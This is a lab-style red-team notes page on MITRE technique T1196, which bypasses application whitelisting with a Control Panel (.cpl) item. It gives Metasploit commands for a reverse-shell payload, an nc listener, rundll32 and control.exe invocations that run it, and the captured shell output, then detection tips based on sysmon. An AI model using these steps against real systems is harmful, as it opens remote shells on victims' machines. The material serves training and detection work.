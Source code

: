 ```yaml
---
description: Control Panel Item code execution - bypass application whitelisting.
---
```


# T1196: Control Panel Item

## Execution

Generating a simple x64 reverse shell in a .cpl format:

{% code title="attacker@local" %}
```csharp
msfconsole
use windows/local/cve_2017_8464_lnk_lpe
set payload windows/x64/shell_reverse_tcp
set lhost 10.0.0.5
exploit

root@~# nc -lvp 4444
listening on [any] 4444 ...
```
{% endcode %}

We can see that the .cpl is simply a DLL with DllMain function exported:

![](../../.gitbook/assets/lnk-dllmain%20%281%29.png)

A quick look at the dissasembly of the dll suggests that rundll32.exe will be spawned, a new thread will be created in suspended mode, which most likely will get injected with our shellcode and eventually resumed to execute that shellcode:

![](../../.gitbook/assets/lnk-dissasm.png)

Invoking the shellcode via control.exe:

{% code title="attacker@victim" %}
```csharp
control.exe .\FlashPlayerCPLApp.cpl
# or
rundll32.exe shell32.dll,Control_RunDLL file.cpl
# or
rundll32.exe shell32.dll,Control_RunDLLAsUser file.cpl
```
{% endcode %}

Attacking machine receiving the reverse shell:

{% code title="attacker@local" %}
```csharp
10.0.0.2: inverse host lookup failed: Unknown host
connect to [10.0.0.5] from (UNKNOWN) [10.0.0.2] 49346
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
```
{% endcode %}

## Observations

Note how rundll32 spawns cmd.exe and establishes a connection back to the attacker - these are signs that should raise your suspicion when investingating a host for a compromise:

![](../../.gitbook/assets/lnk-connection.png)

As always, sysmon logging can help in finding suspicious commandlines being executed in your environment:

![](../../.gitbook/assets/lnk-sysmon%20%281%29.png)

## Bonus - Create Shortcut With PowerShell

```bash
$TargetFile = "$env:SystemRoot\System32\calc.exe"
$ShortcutFile = "C:\experiments\cpl\calc.lnk"
$WScriptShell = New-Object -ComObject WScript.Shell
$Shortcut = $WScriptShell.CreateShortcut($ShortcutFile)
$Shortcut.TargetPath = $TargetFile
$Shortcut.Save()
```

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1196" %}

{% embed url="https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1060/T1060.md" %}

